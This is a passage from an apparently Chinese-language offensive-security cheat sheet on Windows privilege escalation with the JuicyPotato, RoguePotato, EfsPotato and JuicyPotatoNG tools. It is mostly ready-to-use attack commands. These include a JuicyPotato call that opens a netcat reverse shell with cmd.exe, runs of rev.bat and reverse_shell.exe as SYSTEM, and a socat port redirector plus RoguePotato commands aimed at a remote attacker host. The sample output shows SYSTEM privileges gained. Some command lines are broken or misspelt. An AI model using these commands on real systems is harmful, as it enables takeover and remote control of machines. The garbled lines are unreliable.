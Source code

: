 3. 执行JuicyPotato以运行特权命令。

   ```powershell
   JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload
   c.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
   JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
   JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"
       测试 {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
       ......
       [+] authresult 0
       {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
       [+] CreateProcessWithTokenW OK
   ```

### Rogue Potato（假冒OXID解析器）

* 可在此处获取二进制文件：[antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)

```powershell
# 网络重定向器/端口转发器，在远程计算机上运行，必须使用135作为源端口
socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999

# 不在本地运行RogueOxidResolver的RoguePotato。您应该在远程计算机上运行RogueOxidResolver.exe。
# 如果有防火墙限制，请使用此选项。
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"

# RoguePotato全能版，本地在9999端口运行RogueOxidResolver
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999

# RoguePotato全能版，本地在9999端口运行RogueOxidResolver，并指定特定的clsid和自定义pipename
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```

### EFSPotato（MS-EFSR EfsRpcOpenFileRaw）

* 可在此处获取二进制文件：https://github.com/zcgonvh/EfsPotato

```powershell
# .NET 4.x
csc EfsPotato.cs
csc /platform:x86 EfsPotato.cs

# .NET 2.0/3.5
C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe EfsPotato.cs
C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe /platform:x86 EfsPotato.cs
```

### JuicyPotatoNG

* [antonioCoco/JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)

```powershell
JuicyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami" > C:\juicypotatong.txt
```
